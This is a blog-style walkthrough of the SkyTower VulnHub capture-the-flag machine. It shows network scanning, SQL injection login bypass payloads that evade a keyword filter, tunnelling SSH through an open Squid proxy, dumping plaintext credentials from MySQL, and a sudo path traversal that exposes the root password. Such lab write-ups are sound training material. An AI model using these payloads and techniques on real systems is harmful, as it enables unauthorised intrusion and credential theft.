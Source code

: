 ```yaml
---
layout: post
title: "SkyTower writeup"
subtitle: "~ Walkthrough of SkyTower machine ~"
date: 2017-10-31
author: V3ded
category: CTF
tags: blog ctf pentesting 
finished: true
excerpt_separator: <!--more-->
---
```


# Introduction

Next walkthrough [VM](https://www.vulnhub.com/entry/skytower-1,96/){:target="_blank"} was made by Telspace Systems for a BSidesCPT security summit. Rated intermediate difficulty and assigned to 'todo' machines as preparation for OSCP I decided to give it a try. *Time to start!* <!--more-->

***

# Recon

Start with **netdiscover** to find the initial SkyTower's IP:

```console
 Currently scanning: 192.168.31.0/16   |   Screen View: Unique Hosts                                           
                                                                                                               
 22 Captured ARP Req/Rep packets, from 9 hosts.   Total size: 1320                                             
 _____________________________________________________________________________
   IP            At MAC Address     Count     Len  MAC Vendor / Hostname      
 -----------------------------------------------------------------------------
 192.168.1.12    [REDACTED]           1       60      Apple, Inc.                                                 
 192.168.1.12    [REDACTED]           2       120     AzureWave Technology Inc.                                   
 192.168.1.1     [REDACTED]           8       480     ADB Broadband Italia                                        
 192.168.1.16    08:00:27:73:b0:c     9       2       120  PCS Systemtechnik GmbH                                      
 192.168.1.10    [REDACTED]           1       60      Unknown vendor                                              
 192.168.1.11    [REDACTED]           1       60      Unknown vendor                                              
 192.168.1.14    [REDACTED]           1       60      LG Innotek                                                  
 0.0.0.0         [REDACTED]           2       120     Apple, Inc.                                                 
 192.168.1.17    [REDACTED]           4       240     Apple, Inc.                                                 

```

Our target is **192.168.1.16**!

Proceed with **nmap** scan to find open ports and their services:

```console
root@EdgeOfNight:~# nmap -A -T5 -sS 192.168.1.16

Starting Nmap 7.60 ( https://nmap.org ) at 2017-10-31 12:43 GMT
Warning: 192.168.1.16 giving up on port because retransmission cap hit (2).
Nmap scan report for 192.168.1.16
Host is up (0.00034s latency).
Not shown: 997 closed ports
PORT     STATE    SERVICE    VERSION
22/tcp   filtered ssh
80/tcp   open     http       Apache httpd 2.2.22 ((Debian))
|_http-server-header: Apache/2.2.22 (Debian)
|_http-title: Site doesn't have a title (text/html).
3128/tcp open     http-proxy Squid http proxy 3.1.20
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:GET
|_http-server-header: squid/3.1.20
|_http-title: ERROR: The requested URL could not be retrieved
MAC Address: 08:00:27:73:B0:C9 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X
OS CPE: cpe:/o:linux:linux_kernel:3.2
OS details: Linux 3.2, Linux 3.2 - 3.16
Network Distance: 1 hop

TRACEROUTE
HOP RTT     ADDRESS
1   0.34 ms 192.168.1.16

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 30.75 seconds
```

Nmap scan shows, that there is a running HTTP Apache web server. Upon loading the page in a browser we get a result:

<a href="/img/blog/skytower/skytower-01.png" target="_blank"><img class="centerImgLarge" src="/img/blog/skytower/skytower-01.png"></a>

An interesting page and a login functionality! I wonder how it reacts to SQL statements? Login crashes when we input a simple apostrophe - `'` inside username field. Clear sign of an SQL injection. 

<a href="/img/blog/skytower/skytower-02.png" target="_blank"><img class="centerImgHuge" src="/img/blog/skytower/skytower-02.png"></a>

A common login bypass would be a crafted request which looks very similar to: `' OR 1=1#`. Unfortunately there is a filter which prevents the injection:
 
<a href="/img/blog/skytower/skytower-03.png" target="_blank"><img class="centerImgHuge" src="/img/blog/skytower/skytower-03.png"></a>

`OR` and `=` completely dissapeared from the query. Hmm... A certain filter is blocking SQL keywords to prevent a disaster. If you don't know what to do, you should read an [article](https://www.owasp.org/index.php/SQL_Injection_Bypassing_WAF){:target="_blank"} about bypassing filters / WAFs by OWASP. After enough trial and error I found a string which worked. `' OORR 1=1#` bypasses the defenses and puts us past the login!  

<a href="/img/blog/skytower/skytower-04.png" target="_blank"><img class="centerImgHuge" src="/img/blog/skytower/skytower-04.png"></a>

Alternatively, `' || 1=1#` will work as well. 

***

# Exploitation

* Username: john
* Password: hereisjohn

Nice! Before using the credentials we need to get past `filtered` port issue. If you remember, our *nmap* scan only showed SSH as filtered. Not opened. We can use **Squid proxy** (port:*3128*) to solve the problem. Doing a bit of enumeration, it is easy to see that the proxy isn't password protected and therefore we can add it to our proxychains list for later usage. 

Edit `/etc/proxychains.conf` file and add:
```console
[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
http	192.168.1.16	3128 #SQUID PROXY
``` 

After that just connect to SSH via proxychains:
```console
proxychains ssh john@192.168.1.16
``` 

<a href="/img/blog/skytower/skytower-05.png" target="_blank"><img class="centerImgMedium" src="/img/blog/skytower/skytower-05.png"></a>

Unfortunately the connection immediately drops. Most probably because `.bashrc` file has an *exit* instruction somewhere within it. To circumvent this, I just rename `.bashrc` on the target system and retry the login. This can be done by chaining a command right after doing SSH connect:

<a href="/img/blog/skytower/skytower-06.png" target="_blank"><img class="centerImgMedium" src="/img/blog/skytower/skytower-06.png"></a>

Because `.bashrc` file has no longer an effect on our session, we are greeted with a nice shell! 

> Theoretically you can run any command by the previously mentioned method. Feel free to bypass the restriction any way you feel.

***

# Privilege Escalation

Browsing around the filesystem I notice there is an active instance of *MYSQL* database running. You can either guess the correct password (default) or find it inside `/var/www/login.php`.  

<a href="/img/blog/skytower/skytower-07.png" target="_blank"><img class="centerImgMedium" src="/img/blog/skytower/skytower-07.png"></a>

Funny or not, you can also see the filter which prevented us from doing simple SQL injections. Enough of talking though. Connect to the database and get the sweet credentials!

```console
john@SkyTower:/var/www$ mysql -u root -p
Enter password: root

mysql> SHOW DATABASES;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| SkyTech            |
| mysql              |
| performance_schema |
+--------------------+
4 rows in set (0.00 sec)

mysql> USE SkyTech;
Database changed

mysql> SHOW TABLES;
+-------------------+
| Tables_in_SkyTech |
+-------------------+
| login             |
+-------------------+
1 row in set (0.00 sec)

mysql> SELECT * FROM login;
+----+---------------------+--------------+
| id | email               | password     |
+----+---------------------+--------------+
|  1 | john@skytech.com    | hereisjohn   |
|  2 | sara@skytech.com    | ihatethisjob |
|  3 | william@skytech.com | senseable    |
+----+---------------------+--------------+
3 rows in set (0.00 sec)
```
If some of the queries are unclear I recommend reading a MySQL [cheatsheet](https://www.digitalocean.com/community/tutorials/a-basic-mysql-tutorial){:target="_blank"} by DigitalOcean. 

Afterwards I tried to login as Wiliam, but his credentials don't work. However Sara's do! She has the same *exit* annoyance thingy in `.bashrc` as John, but fear not. We already know how to go around it :).

<a href="/img/blog/skytower/skytower-08.png" target="_blank"><img class="centerImgMedium" src="/img/blog/skytower/skytower-08.png"></a>

Then do `sudo -l`:

<a href="/img/blog/skytower/skytower-09.png" target="_blank"><img class="centerImgHuge" src="/img/blog/skytower/skytower-09.png"></a>

which reveals we can run `/bin/cat /accounts/` under root privileges. This alows for a path traversal and `cat`-ing of protected content. In my case the root flag.

```console
sara@SkyTower:~$ sudo cat /accounts/../root/flag.txt
Congratz, have a cold one to celebrate!
root password is theskytower
sara@SkyTower:~$ 
```

Just do `su root`, enter the password and BAAM! 

<a href="/img/blog/skytower/skytower-10.png" target="_blank"><img class="centerImgHuge" src="/img/blog/skytower/skytower-10.png"></a>

### Rooted!

***

# Conclusion

In my opinion a prety solid box. I learnt few new things and had fun while doing so. What more can you wish for?! My thanks goes to **bitvijays** for providing me with guidance when I got stuck once or twice. Check out his blog at <http://bitvijays.github.io/> ! If there are any questions feel free to reach out to me by [Twitter](/about/){:target="_blank"} or leaving a comment down bellow.  

~V3